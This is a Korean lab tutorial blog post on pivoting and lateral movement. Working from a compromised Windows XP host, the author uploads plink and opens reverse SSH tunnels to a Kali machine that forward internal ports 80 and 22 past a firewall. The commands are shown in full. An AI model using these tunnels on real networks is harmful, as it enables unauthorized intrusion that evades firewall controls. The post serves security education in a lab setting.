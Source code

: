 ```yaml
---
title: 패킷 릴레이와 측면 이동
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-25 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

### 방화벽 구성

방화벽은 다음과 같이 설정한다.

외부에서 내부로 서비스 거부하도록 설정한 것이다.

![2](https://user-images.githubusercontent.com/59737252/170301426-f3f817f4-70f7-4401-9747-f7870859072e.png)

<br>

## Step2. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한 후 진행한다.

세션을 얻는 방법은 저번에 사용했던 방법을 참고하면 된다.

<br>

## Step3. 측면 이동

---

### plink 준비

해당 공격을 하기전에 앞서 plink를 윈도우로 옮겨놓는다.

윈도우의 쉘을 얻은 후 plink를 upload 한다.

plink는 윈도우에서 ssh를 사용할 수 있는 도구이다.

<br>

### plink 설명

윈도우의 쉘을 얻은 상태에서 아래의 명령어를 입력한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

명령어를 해석하면 다음과 같다.

plink <span style="background-color: #fff5b1">-R</span> 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
R옵션 : 원격시스템에 포트를 연다.

plink -R <span style="background-color: #fff5b1">4321:</span>192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
4321포트 : 원격시스템에 4321로 포트를 연다.

plink -R 4321:<span style="background-color: #fff5b1">192.168.56.80:80</span> -l root -pw lab 192.168.57.10
<br>
192.168.56.80:80 : 해당 포트(4321)로 접속하게 되면 192.168.56.80의 80번 포트로 포트포워딩 한다.

plink -R 4321:192.168.56.80:80 -l root -pw lab <span style="background-color: #fff5b1">192.168.57.10</span>
<br>
192.168.57.10 : ssh로 접속할 서버 주소이다.

<br>

그러면 결과적으로 다음과 같은 구도를 나타낸다.

![3](https://user-images.githubusercontent.com/59737252/170305911-2ae28d03-e41a-4918-9383-af94c96a1c81.png){: width="70%"}

<br>

### plink 사용 (80번 포트)

plink를 사용하여 측면이동을 시도한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

![4](https://user-images.githubusercontent.com/59737252/170306576-f8244884-6e23-4efd-a896-65032580c1fe.png)

그러면 root@kali 로 나오게 된것을 볼 수 있는데

이것은 윈도우에서 칼리로 ssh를 이용해 접속하였기 때문에 그렇다.

<br>

### 포트 확인

```console
kali# netstat -atunp | grep 4321
```

netstat를 이용하여 4321번 포트가 열려있는지 확인한다.

![5](https://user-images.githubusercontent.com/59737252/170307424-ab86eec3-01fa-4f27-949a-75704c0acfac.png)

<br>

### 포트포워딩 확인

자기 자신(localhost)으로 접속하여 포트포워딩이 되는지 확인한다.

192.168.56.80으로 시도하면 방화벽으로 인해 접속이 안되지만

![7](https://user-images.githubusercontent.com/59737252/170308511-b67a2bb6-f3f4-4f6b-a45e-fca68791d35c.png){:width="95%"}

<br>

localhost:4321으로 접속하면 포트포워딩으로 인해 접속이 되는것을 볼 수 있다.

![6](https://user-images.githubusercontent.com/59737252/170307908-3e6e7eed-36a8-4152-a753-aaa5cc6fa9b2.png){:width="95%"}

<br>

tail 명령을 사용하여 로그를 살펴볼수도 있다.

```console
centos# tail -f /var/log/httpd/access_log
```

<br>

### plink 사용 (22번 포트)

같은 방법으로 22번인 ssh를 이용하여 사용해본다.

물론 centos에 ssh 서비스가 실행되어 있어야 한다.

```console
C:\WINDOWS\Temp> plink -R 2222:192.168.56.80:22 -l root -pw lab 192.168.57.10
```

```console
kali# ssh root@localhost -p 2222
```

![8](https://user-images.githubusercontent.com/59737252/170310764-6be2e501-cf2a-43fb-83b5-3d5d3ebdafcc.png)
